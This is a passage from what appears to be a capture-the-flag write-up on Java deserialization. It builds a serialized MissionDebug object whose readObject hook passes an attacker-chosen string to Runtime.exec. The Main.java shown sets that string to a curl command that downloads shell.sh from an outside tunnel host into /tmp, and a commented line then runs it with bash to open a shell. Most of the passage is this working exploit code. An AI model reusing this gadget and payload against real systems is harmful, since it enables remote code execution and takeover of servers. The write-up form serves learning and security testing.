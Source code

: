 ```java

        try {
            ois.defaultReadObject();
            Runtime runtime = Runtime.getRuntime();
            runtime.exec((String) this.debug);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
- Since `debug` field is private I had to add a way to give it a value, either by using **Reflections** or by using a **constructor** like this
```java
    public MissionDebug(String debug) {
        this.debug = debug;
    }
```
- or with Reflections like this
```java
    MissionDebug mission = new MissionDebug();
    Field debug = mission.getClass().getDeclaredField("debug");
    debug.setAccessible(true);
    debug.set(mission, new String("PAYLOAD"));
```
- But I went with the first method (constructor)
- My Main.java code
```java
package com.yogosha;

import com.yogosha.utils.MissionDebug;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
        public static void main(String[] args) throws Exception {
        String req = "curl https://social-plums-juggle-86-108-21-39.loca.lt/shell.sh -o /tmp/F30s.sh"; // run first to download the shell
        // String req = "bash /tmp/F30s.sh"; // run second to activate the shell (wait a minute before executing this - it might take sometime to download the .sh file)

        MissionDebug missionDebug = new MissionDebug(req);
        String serializedObject = serialize(missionDebug);
        System.out.println("Serialized object: " + serializedObject);
        //list(serializedObject);
        MissionDebug deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized object ID: " + deserializedObject.toString());
    }
    
    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
```